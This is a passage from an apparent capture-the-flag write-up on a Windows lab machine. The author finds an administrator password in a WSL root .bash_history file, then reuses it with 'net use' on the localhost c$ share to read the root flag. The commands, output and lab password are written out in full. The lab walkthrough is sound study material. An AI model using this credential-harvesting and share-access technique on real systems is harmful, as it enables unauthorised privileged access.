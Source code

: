      Directory of C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\home
    
    06/21/2018  05:00 PM    <DIR>          .
    06/21/2018  05:00 PM    <DIR>          ..
                   0 File(s)              0 bytes
                   2 Dir(s)  33,220,313,088 bytes free
    
    C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\root>dir
    dir
     Volume in drive C has no label.
     Volume Serial Number is 9CDD-BADA
    
     Directory of C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\root
    
    06/22/2018  01:44 PM    <DIR>          .
    06/22/2018  01:44 PM    <DIR>          ..
    06/22/2018  02:09 AM             3,112 .bashrc
    01/13/2019  10:04 AM               443 .bash_history
    06/21/2018  05:00 PM               148 .profile
    06/22/2018  01:56 AM    <DIR>          filesystem
                   3 File(s)          3,703 bytes
                   3 Dir(s)  33,220,313,088 bytes free
    

The `.bash_history` is available here as well:

    
    
    C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\root>type .bash_history | findstr smbclient
    type .bash_history | findstr smbclient
    smbclient
    apt install smbclient
    smbclient
    smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
    

### Root FS Access

One way to use the administrator creds is to connect to the localhost `c$`
share:

    
    
    C:\inetpub\new-site>net use \\127.0.0.1\c$ /user:administrator "u6!4ZwgwOM#^OBf#Nwnh"
    net use \\127.0.0.1\c$ /user:administrator "u6!4ZwgwOM#^OBf#Nwnh"
    The command completed successfully.
    
    C:\inetpub\new-site>type \\127.0.0.1\c$\users\administrator\desktop\root.txt
    type \\127.0.0.1\c$\users\administrator\desktop\root.txt
    7250cde1...
    

I could also do the same thing with `smbclient` from my kali box.

### Shell as administrator
